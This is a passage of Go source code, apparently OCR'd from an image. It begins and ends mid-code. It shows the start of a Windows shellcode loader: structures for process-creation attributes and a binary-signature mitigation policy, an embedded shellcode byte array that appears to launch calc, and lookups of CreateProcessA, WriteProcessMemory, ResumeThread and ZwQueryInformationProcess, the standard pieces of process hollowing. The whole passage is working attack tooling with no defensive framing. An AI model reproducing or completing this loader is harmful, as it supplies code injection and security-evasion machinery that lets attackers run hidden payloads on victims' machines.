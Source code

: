 ```go
	PebAddress   uintptr
	Reserved2    uintptr
	Reserved3    uintptr
	UniquePid    uintptr
	MoreReserved uintptr
}

type StartupInfoEx struct {
	windows.StartupInfo
	AttributeList *PROC_THREAD_ATTRIBUTE_LIST
}

type ProcessInformation struct {
	Process   Handle
	Thread    Handle
	ProcessId uint32
	ThreadId  uint32
}

type Handle uintptr

type PROC_THREAD_ATTRIBUTE_LIST struct {
	dwFlags  uint32
	size     uint64
	count    uint64
	reserved uint64
	unknown  *uint64
	entries  []*PROC_THREAD_ATTRIBUTE_ENTRY
}

type PROC_THREAD_ATTRIBUTE_ENTRY struct {
	attribute *uint32
	cbSize    uintptr
	lpValue   uintptr
}

type PROCESS_MITIGATION_BINARY_SIGNATURE_POLICY struct {
	Flags uint32
}

func main(){
  var shellcode []byte = []byte{0x50, 0x51, 0x52, 0x53, 0x56, 0x57, 0x55, 0x6a, 0x60, 0x5a, 0x68, 0x63, 0x61, 0x6c, 0x63, 0x54, 0x59, 0x48, 0x83, 0xec, 0x28, 0x65, 0x48, 0x8b, 0x32, 0x48, 0x8b, 0x76, 0x18, 0x48, 0x8b, 0x76, 0x10, 0x48, 0xad, 0x48, 0x8b, 0x30, 0x48, 0x8b, 0x7e, 0x30, 0x3, 0x57, 0x3c, 0x8b, 0x5c, 0x17, 0x28, 0x8b, 0x74, 0x1f, 0x20, 0x48, 0x1, 0xfe, 0x8b, 0x54, 0x1f, 0x24, 0xf, 0xb7, 0x2c, 0x17, 0x8d, 0x52, 0x2, 0xad, 0x81, 0x3c, 0x7, 0x57, 0x69, 0x6e, 0x45, 0x75, 0xef, 0x8b, 0x74, 0x1f, 0x1c, 0x48, 0x1, 0xfe, 0x8b, 0x34, 0xae, 0x48, 0x1, 0xf7, 0x99, 0xff, 0xd7, 0x48, 0x83, 0xc4, 0x30, 0x5d, 0x5f, 0x5e, 0x5b, 0x5a, 0x59, 0x58, 0xc3}

  kernel32 := windows.NewLazyDLL("kernel32.dll")
  ntdll := windows.NewLazyDLL("ntdll.dll")

  GetProcessHeap := kernel32.NewProc("GetProcessHeap")
  HeapAlloc := kernel32.NewProc("HeapAlloc")
  HeapFree := kernel32.NewProc("HeapFree")
  InitializeProcThreadAttributeList := kernel32.NewProc("InitializeProcThreadAttributeList")
  UpdateProcThreadAttribute := kernel32.NewProc("UpdateProcThreadAttribute")
  CreateProcessA := kernel32.NewProc("CreateProcessA")
  ReadProcessMemory := kernel32.NewProc("ReadProcessMemory")
  WriteProcessMemory := kernel32.NewProc("WriteProcessMemory")
  ResumeThread := kernel32.NewProc("ResumeThread")
  ZwQueryInformationProcess := ntdll.NewProc("ZwQueryInformationProcess")

```